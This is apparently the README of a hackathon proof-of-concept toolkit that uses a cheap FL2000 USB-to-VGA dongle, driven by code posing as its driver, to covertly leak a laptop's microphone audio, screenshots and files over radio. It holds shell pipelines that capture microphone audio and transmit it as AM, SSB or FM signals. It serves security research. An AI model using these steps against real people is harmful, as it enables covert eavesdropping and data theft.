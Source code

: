# RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.

### Platforms
Supported platforms: Linux
osmo-fl2k works best with Linux

### New Tools
fl2k_iq: a tool that upconverters raw baseband I/Q to a frequency. Accepts signed 16 bit I/Q signals

### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Using RF-Xfil main features
To find your sound input device:

#### Microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

#### Monitor input
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```
SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```

Additionally, you can use your own data modulator/demodulator such as (AudioNetwork)[https://github.com/robertrypula/AudioNetwork] or (amodem)[https://github.com/romanz/amodem]

### Limitations

fl2k_iq does not work very well (sometimes not at all) when there isn't a constant carrier (like SSB modes). Hypothesis is that the chip itself switches power modes(?) which causes delays.

fl2k_iq creates spurious signals at frequency +/- sample_frequency
### Languages
English only (translations welcome)

